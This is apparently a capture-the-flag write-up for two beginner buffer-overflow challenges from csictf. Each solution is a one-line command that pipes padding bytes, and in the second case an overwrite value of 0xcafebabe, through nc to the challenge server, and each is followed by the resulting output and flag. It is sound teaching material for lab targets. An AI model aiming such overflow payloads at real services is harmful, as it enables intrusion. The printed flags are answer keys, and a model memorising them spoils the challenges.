 

<br /><br />
<br /><br />
## [Pwn]: pwn intended 0x1
- - -
### Challenge
> I really want to have some coffee!
<br /><br />
nc chall.csivit.com 30001

Attachment:

- pwn-intended-0x1

<br />
### Solution
<pre>
$ (python -c 'print("A"*48)' ; cat - ) | nc chall.csivit.com 30001
Please pour me some coffee:

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
</pre>

<br />

Flag: `csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}`



<br /><br />
<br /><br />
## [Pwn]: pwn intended 0x2
- - -
### Challenge
> Travelling through spacetime!
<br /><br />
nc chall.csivit.com 30007

Attachment:

- pwn-intended-0x2

<br />
### Solution
<pre>
$ (python -c 'print("A"*44)+"\xbe\xba\xfe\xca\x00\x00\x00\x00"' ; cat - ) | nc chall.csivit.com 30007
Welcome to csictf! Where are you headed?
Safe Journey!
You've reached your destination, here's a flag!
csictf{c4n_y0u_re4lly_telep0rt?}
</pre>
